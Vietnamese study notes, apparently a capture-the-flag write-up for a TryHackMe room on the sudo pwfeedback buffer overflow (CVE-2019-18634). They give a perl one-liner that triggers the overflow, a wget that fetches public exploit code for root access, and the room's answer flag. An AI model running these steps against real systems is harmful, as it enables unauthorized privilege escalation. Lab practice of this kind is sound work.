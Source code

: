 - link bt: https://tryhackme.com/room/sudovulnsbof<br>

*. task 2:<br>
- CVE-2019-18634: sử dụng tấn công Buffer Overflow để lấy quyền root. nó đã đc vá nma ảnh hưởng đến phiên bản sudo trước 1.8.26
- can thêm mọi thứ vào tệp /etc/sudoers để cấp them quyền cho ng dùng có đặc quyền thấp hơn
- cách khai thác này có tùy chọn: pwfeedback -> lm cho mật khẩu nhập vào từ ko xuất hiện j thành xuất hiên dấu *
- khi tùy chọn này đc bật -> can tấn công tràn bộ đệm bằng lệnh sudo
- nhập lệnh -> xuất hiện lỗi: Segmentation fault -> c.ta đã cố truy cập vào 1 số bộ nớ mà lẽ ra c.ta ko thể truy cập đc -> lỗ hổng tràn bộ đệm tồn tại -> khai thác
- điền vào trg mật khẩu những in4 rác rưởi và sau đó ghi đè các in4 quan trọng hơn trong 'box' tiếp theo bằng mã cung cấp cho c.ta shell gốc
- dùng lệnh: wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c (tệp này để lên quyền root) để tải file

1. What's the flag in /root/root.txt?<br>
- dùng lệnh: perl -e "print((\"A\" x 100 . \"\x{00}\") x 50)" | sudo -S id<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/462d25e7-8eb3-4834-830f-a7896c67bd81)<br>

- dùng lệnh: find / -group root -name root.txt<br>

![image](https://github.com/chaumoon/Lm_BT_CEH/assets/127403046/e2a179bc-5a13-4b62-90b0-77577c5a514c)<br>

As: THM{buff3r_0v3rfl0w_rul3s}

